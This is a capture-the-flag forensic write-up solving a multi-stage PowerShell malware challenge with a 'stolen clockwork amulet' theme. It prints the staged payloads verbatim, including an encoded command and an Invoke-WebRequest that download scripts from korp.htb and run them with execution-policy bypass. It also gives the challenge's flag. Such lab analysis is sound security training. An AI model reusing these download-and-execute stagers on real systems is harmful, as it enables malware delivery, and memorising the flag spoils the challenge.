 # Solution

## Challenge Overview
A forensic challenge involving a multi-stage PowerShell attack related to Thorin's stolen clockwork amulet.

## Approach

### Initial Script Analysis
1. Examined the first PowerShell script with a specific workstation check
2. Decoded the Base64 encoded command revealing a download mechanism
3. Identified a pattern of staged malware delivery

### Payload Retrieval
- Used netcat to connect to the provided Docker instance
- Sent HTTP GET requests to different endpoints:
  1. `/update`: First stage payload
```
    function qt4PO { 
        if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") { exit } 
        powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=" 
    } 
    qt4PO
```
  2. `/a541a`: Second stage payload with a custom authentication header
    ```
        function aqFVaq {
        Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
        powershell.exe -exec Bypass -File "a541a.ps1"
    }
    aqFVaq
    ```
    3. Third Stage Payload
    ```
        $a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
        ($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""

    ```
    4. HEX string analysis
    - Hex String: 4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d
    - Decoded Flag: HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
### HTTP Requests
```
    GET /update HTTP/1.1
    Host: korp.htb

    GET /a541a HTTP/1.1
    Host: korp.htb
    X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d
```
### Flag Extraction
- Found a hex-encoded string in the final payload
- Used PowerShell-like decoding technique to convert hex to ASCII
- Successfully decoded the flag: `HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`

## Key Findings
- Multi-stage fileless malware attack
- Use of Base64 encoding and hex obfuscation
- Targeted attack with specific workstation check

## Flag
`HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`